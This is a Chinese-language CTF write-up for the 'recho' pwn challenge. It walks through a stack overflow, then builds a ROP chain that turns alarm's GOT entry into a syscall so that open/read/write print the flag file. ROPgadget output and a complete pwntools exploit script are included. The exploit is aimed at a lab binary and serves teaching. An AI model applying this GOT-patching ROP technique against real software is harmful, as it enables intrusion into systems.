

程序分析
程序逻辑很简单：输入一个长度，然后接收相应长度的字符串，并打印出来。这里有很明显的栈溢出

漏洞利用
漏洞很明显，但是利用起来却没有那么简单，原因在于while循环....
常规思路下，需要两次利用才能完成get
shell，第一次利用泄露libc，第二个利用执行system。不过这个程序想要跳出while循环去执行system，就只能通过ctrl+D，这个在pwntools里，可以利用shutdown()函数来完成，但是一旦关闭流，就无法再次开启，除非重新运行程序。这就意味着，只能通过一次利用完成所有操作。
一次利用，可以使用ret2syscall的思想，通过open/read/write三个系统调用，把flag文件打开，然后读到程序中再打印出来。
任意打开一个libc.so，就能看到，open/read/write三个函数其实是调用syacall实现的，比如read的系统调用号为0

同理，write的系统调用号为1，open的系统调用号为2【高版本libc使用的是openat，系统调用号为257】
程序本身已经调用的read和write，那么现在需要构造出open的调用，也就是先找到一个syscall的调用。
程序本身是没有直接使用syscall的，但是alarm()在libc中是通过系统调用完成的，并且alarm()函数入口偏移0x5个字节，就是syscall【libc2.31以上版本的偏移为0x9】
[[Pasted image 20230802172248.png]]
所以，只需要找一条指令，能够让alarm的got表地址向后偏移0x5，在把open的系统调用号放在rax中，就能构造出一个open的系统调用了
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| $ ROPgadget --binary recho --only 'add|ret'
Gadgets information
============================================================
0x00000000004008af : add bl, dh ; ret
0x00000000004008ad : add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004008ab : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x0000000000400830 : add byte ptr [rax], al ; add cl, cl ; ret
0x000000000040070d : add byte ptr [rdi], al ; ret
0x0000000000400832 : add cl, cl ; ret
0x00000000004006f4 : add eax, 0x20098e ; add ebx, esi ; ret
0x000000000040070a : add eax, 0x70093eb ; ret
0x00000000004006f9 : add ebx, esi ; ret
0x00000000004005b3 : add esp, 8 ; ret
0x00000000004005b2 : add rsp, 8 ; ret
0x00000000004005b6 : ret
Unique gadgets found: 12
|
可以直接用0x40070d的指令，将alarm()的got表地址放至rdi中，0x5放至al（rax的低8位）中，就可以将alarm()的got表地址向后偏移0x5
1
2
3
4
5
6
| payload = b'a' * 0x38
payload += p64(pop_rdi) + p64(alarm_got)
payload += p64(pop_rax) + p64(0x5)
payload += p64(add_rdi_al)
|
但是拿不到flag。。。（本地尝试是可以成功的）
完整EXP
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
| from pwn import *
context.log_level = "debug"
p = process("./recho")
elf = ELF("./recho")
alarm_got = elf.got['alarm']
alarm_plt = elf.plt['alarm']
read_plt = elf.plt['read']
write_plt = elf.plt['write']
printf_plt = elf.plt['printf']
str_flag = 0x601058
bss_stdin = 0x601070
add_rdi_al = 0x40070d
pop_rdi = 0x4008a3
pop_rax = 0x4006fc
pop_rsi_r15 = 0x4008a1
pop_rdx = 0x4006fe
payload = b'a' * 0x38
payload += p64(pop_rdi) + p64(alarm_got)
payload += p64(pop_rax) + p64(0x5)
payload += p64(add_rdi_al)
payload += p64(pop_rdi) + p64(str_flag)
payload += p64(pop_rsi_r15) + p64(0x0) + p64(0x0)
payload += p64(pop_rax) + p64(0x2)
payload += p64(alarm_plt)
payload += p64(pop_rdi) + p64(0x3)
payload += p64(pop_rsi_r15) + p64(bss_stdin) + p64(0x0)
payload += p64(pop_rdx) + p64(100)
payload += p64(read_plt)
payload += p64(pop_rdi) + p64(bss_stdin) + p64(printf_plt)
p.recvuntil("Welcome to Recho server!\n")
p.sendline(str(0x250))
p.sendline(payload.ljust(0x200, b'\x00'))
p.recv()
p.shutdown("send")
p.interactive()
|